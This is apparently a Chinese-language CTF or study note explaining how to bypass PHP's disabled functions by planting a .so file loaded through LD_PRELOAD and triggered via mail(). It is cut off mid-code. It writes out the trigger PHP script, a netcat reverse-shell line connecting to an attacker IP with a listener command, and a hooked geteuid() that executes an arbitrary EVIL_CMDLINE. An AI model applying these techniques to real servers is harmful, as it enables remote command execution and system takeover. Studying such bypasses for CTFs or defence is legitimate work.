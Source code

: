`vim demo.php`

<?php
putenv("LD_PRELOAD=./demo.so");
mail('','','');
?>

`php demo.php`



## mail函数命令执行的例题

绕过条件:

- 能够上传自己的.so文件
- 能够控制环境变量的值(设置LD_PRELOAD变量),比如putenv函数为被禁止
- 存在可以控制php启动外部程序的函数并能执行(因为新进程启动降价在LD_PRELOAD中的.so文件),比如mail(),imap_mail(),mb_send_mail()和error_log()等



构造payload

mail函数->调用子程序"/usr/bin/sendmail"->调用动态链接库geteuid

将demo.php和demo.so上传到蚁剑,访问demo.php



**简便方法:**

更改demo.c文件的内容为

`system("nc [ip地址] 7777 -e /bin/bash");`

再在kali上输入`nc -lnvp 7777`监听7777端口

可以执行shell命令



# EVIL_CMDLINE

当`LD_PRELOAD`无法反弹shell时可以尝试`EVIL_CMDLINE`



执行其他命令时需要修改demo2.so里的geteuid函数

把要执行的命令赋值到环境变量EVIL_CMDLINE直接读取命令

具体如下

int geteuid() {

​	const char* cmdline = getenv("EVIL_CMDLINE");

​	if(getenv("LD_PRELOAD") == NULL){return 0;}

​    unsetenv("LD_PRELOAD");

​	system(cmdline);
